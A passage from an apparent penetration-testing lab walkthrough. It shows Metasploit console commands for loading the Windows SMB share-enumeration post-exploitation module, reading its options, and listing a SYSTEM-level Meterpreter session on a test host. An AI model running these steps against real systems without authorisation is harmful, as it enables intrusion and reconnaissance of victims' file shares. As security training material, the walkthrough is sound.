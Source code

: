 ```bash
   .
   .
   .
   27  post/windows/gather/enum_shares                                                  normal     No     Windows Gather SMB Share Enumeration via Registry
```

From the above result we can see module 27 is the one we are after. We can load the module and gather more information by using the `show info` command.

```bash
msf6 exploit(multi/handler) > use 27
msf6 post(windows/gather/enum_shares) > show info

       Name: Windows Gather SMB Share Enumeration via Registry
     Module: post/windows/gather/enum_shares
   Platform: Windows
       Arch: 
       Rank: Normal

Provided by:
  Carlos Perez <carlos_perez@darkoperator.com>

Module stability:
 crash-safe

Compatible session types:
  Meterpreter
  Powershell
  Shell

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  CURRENT  true             yes       Enumerate currently configured shares
  ENTERED  true             yes       Enumerate recently entered UNC Paths in the Run Dialog
  RECENT   true             yes       Enumerate recently mapped shares
  SESSION                   yes       The session to run this module on

Description:
  This module will enumerate configured and recently used file shares.


View the full module info with the info -d command.
```

We can see from the options section, we only need to provide the session number. We can find available sessions by issuing the `sessions` command.

```bash
msf6 post(windows/gather/enum_shares) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                      Connection
  --  ----  ----                     -----------                      ----------
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ ACME-TEST  10.4.72.115:4444 -> 10.10.109.254:57750 (10.10.109.254)
```
